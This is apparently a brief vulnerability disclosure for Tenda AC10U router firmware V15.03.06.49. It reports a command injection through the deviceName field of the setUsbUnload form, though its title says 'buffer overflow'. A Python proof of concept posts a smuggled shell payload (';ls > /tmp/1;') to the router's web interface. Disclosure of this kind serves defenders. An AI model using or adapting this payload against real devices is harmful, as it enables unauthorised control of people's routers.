

# buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formsetUsbUnload

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:




get value from deviceName ,then call doSystemCmd, can execute arbitrary command.


## POC
```
url = "http://192.168.1.13/goform/setUsbUnload"
payload = ';ls > /tmp/1;'

r = requests.post(url, data={'deviceName': payload})
``` 
